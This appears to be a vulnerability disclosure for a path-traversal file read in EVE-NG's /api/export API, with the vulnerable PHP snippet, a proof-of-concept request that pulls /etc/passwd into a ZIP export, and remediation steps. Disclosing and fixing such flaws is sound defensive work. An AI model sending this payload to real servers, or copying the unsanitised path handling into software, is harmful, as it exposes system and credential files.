


# EVE-NG /api/export Arbitrary File Read

## 1. Overview
- **Affected Product**: EVE-NG 6.4.0-13-PRO

## 2. Vulnerability Description
EVE-NG is a widely used virtual network emulation platform. The `/api/export` interface in its API allows authenticated users to export lab files. This interface lacks effective input validation and filtering when processing file path parameters submitted by users.

Attackers can bypass directory restrictions set by the application by constructing malicious JSON requests that include path traversal sequences (such as `/../../../../../etc/passwd`) in the filename parameter. The server packs the arbitrary files specified in the request into a ZIP archive and returns a download link, leading to the leakage of sensitive information.

## 3. Vulnerability Details and Root Cause Analysis
- **Vulnerability Location**: The `apiExportLabs` function in the `html/includes/api_configs.php` file.
- **Root Cause Analysis**:
  In this function, the code iterates through the POST parameters submitted by the user (parameters other than `path` are treated as files to be exported). The code directly concatenates `BASE_LAB . $p['path']` with the user-provided filename to construct the `zip` command.

  ```php
  // Vulnerable code snippet
  foreach ($p as $key => $element) {
      if ($key === 'path') continue;
  
      // ...
  
      // Directly concatenating path, not checking if $relement contains ".."
      if (is_file(BASE_LAB.$p['path'].$relement)) {
          // Adding a file
          $cmd = 'zip '.$export_file.' ".'.$relement.'"';
          exec($cmd, $o, $rc);
          // ...
      }
  }
  ```
  Due to the lack of filtering for `..` characters or path normalization checks on `$relement` (derived from user input), the `zip` command resolves relative paths, thereby reading and packing arbitrary files on the system.

## 4. Proof of Concept (PoC)

**Prerequisites**: The attacker needs to have permission to log in to the system (a regular user is sufficient).

**HTTP Request**:
```http
POST /api/export HTTP/1.1
Host: target-ip
Content-Type: application/json
Cookie: <valid_session_cookie>

{
    "path": "/",
    "0": "/test1.unl",
    "1": "/../../../../../etc/passwd"
}
```
*Note*: `valid.unl` must be any valid lab file existing in the system to ensure the export process starts normally.

**Response**:
The server will return a status code 200 and a JSON response containing a download link. Downloading and unzipping this ZIP file yields the `/etc/passwd` file.





## 5. Remediation Suggestions
It is recommended to implement strict input validation when handling file paths:
1. **Path Normalization**: Use PHP's `realpath()` function to resolve absolute paths and check if the resolved path is still located within the expected `BASE_LAB` directory.
2. **Input Filtering**: Reject unexpected filename parameters containing `..` or starting with `/`.
3. **Whitelist Mechanism**: Only allow exporting files with specific suffixes or in specific directories.

---
**Report Date**: 2025-12-07
